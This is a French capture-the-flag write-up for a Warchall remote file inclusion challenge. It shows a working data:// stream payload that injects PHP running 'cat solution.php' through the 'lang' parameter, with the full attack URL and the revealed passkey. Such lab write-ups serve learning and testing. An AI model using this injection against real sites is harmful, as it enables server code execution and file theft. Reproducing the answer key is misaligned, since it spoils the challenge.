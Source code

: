 _RFI (Remote File Inclusion)_  est une vulnérabilité de sécurité qui peut survenir dans les applications web en utilisant Data Stream.
Il mentionne l'utilisation de Data Stream avec l'exemple suivant : *data://text/plain,<?php echo file_get_contents("solution.php"); ?>*.

Pour notre probleme, il faut voir le contenu de fichier *solution.php*

**Etape à suivre**
1. Allez dans le lien principal de [RFI](https://rfi.warchall.net/)
2. Cliquer sur le logo de langue (choix de langue) => exemple : [RFI langue](https://rfi.warchall.net/index.php?lang=en)
3. Effacer "en" et remplacer par la methode d'attaque Data stream => *data://text/plain,<?php echo`cat solution.php`; ?>*
[lien complet](https://rfi.warchall.net/index.php?lang=data://text/plain,%3C?php%20echo`cat%20solution.php`;%20?%3E)
4. Après, il donne ça : 
````sh
NOTHING HERE????

Warning: Trying to access array offset on value of type int in /home/level/15_live_rfi/www/index.php on line 36

Warning: Trying to access array offset on value of type int in /home/level/15_live_rfi/www/index.php on line 36
````
Il suggère que c'est pas là !!!

5. Donc, Il faut inspecter ce site et la solution est là (^,^)
````sh
<!--?php return 'Low_H4NGING_Fruit'; ?-->
````
The passkey is : **Low_H4NGING_Fruit**







